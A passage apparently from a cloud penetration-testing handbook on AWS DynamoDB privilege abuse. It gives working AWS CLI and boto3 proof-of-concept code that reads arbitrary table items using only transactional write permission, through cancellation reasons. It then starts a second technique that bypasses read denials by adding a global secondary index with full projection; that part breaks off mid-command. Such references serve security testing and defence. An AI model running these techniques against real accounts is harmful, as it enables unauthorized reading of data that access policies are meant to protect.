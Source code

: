 ```bash

# Execute. Newer AWS CLI versions support returning cancellation reasons
aws dynamodb transact-write-items \
  --transact-items file:///tmp/tx_items.json \
  --region <region> \
  --return-cancellation-reasons
# The command fails with TransactionCanceledException; parse cancellationReasons[0].Item
```

{{#endtab }}
{{#tab name="PoC (boto3)" }}

```python
import boto3
c=boto3.client('dynamodb',region_name='<region>')
try:
  c.transact_write_items(TransactItems=[{ 'Update': {
    'TableName':'<TableName>',
    'Key':{'<PKName>':{'S':'<PKValue>'}},
    'UpdateExpression':'SET #m = :v',
    'ExpressionAttributeNames':{'#m':'marker'},
    'ExpressionAttributeValues':{':v':{'S':'x'}},
    'ConditionExpression':'attribute_not_exists(<PKName>)',
    'ReturnValuesOnConditionCheckFailure':'ALL_OLD'}}])
except c.exceptions.TransactionCanceledException as e:
  print(e.response['CancellationReasons'][0]['Item'])
```

{{#endtab }}
{{#endtabs }}

Permissions: `dynamodb:TransactWriteItems` on the target table (and the underlying item). No read permissions are required.

Potential Impact: Read arbitrary items (by primary key) from a table using only transactional write privileges via the returned cancellation reasons.

### `dynamodb:UpdateTable` + `dynamodb:UpdateItem` + `dynamodb:Query` on GSI

Bypass read restrictions by creating a Global Secondary Index (GSI) with `ProjectionType=ALL` on a low-entropy attribute, set that attribute to a constant value across items, then `Query` the index to retrieve full items. This works even if `Query`/`Scan` on the base table is denied, as long as you can query the index ARN.

- Minimum permissions:
  - `dynamodb:UpdateTable` on the target table (to create the GSI with `ProjectionType=ALL`).
  - `dynamodb:UpdateItem` on the target table keys (to set the indexed attribute on each item).
  - `dynamodb:Query` on the index resource ARN (`arn:aws:dynamodb:<region>:<account-id>:table/<TableName>/index/<IndexName>`).

Steps (PoC in us-east-1):

```bash
# 1) Create table and seed items (without the future GSI attribute)
aws dynamodb create-table --table-name HTXIdx \
  --attribute-definitions AttributeName=id,AttributeType=S \
  --key-schema AttributeName=id,KeyType=HASH \
  --billing-mode PAY_PER_REQUEST --region us-east-1
aws dynamodb wait table-exists --table-name HTXIdx --region us-east-1
for i in 1 2 3 4 5; do \
  aws dynamodb put-item --table-name HTXIdx \
  --item "{\"id\":{\"S\":\"$i\"},\"secret\":{\"S\":\"sec-$i\"}}" \
  --region us-east-1; done

# 2) Add GSI on attribute X with ProjectionType=ALL
aws dynamodb update-table --table-name HTXIdx \
```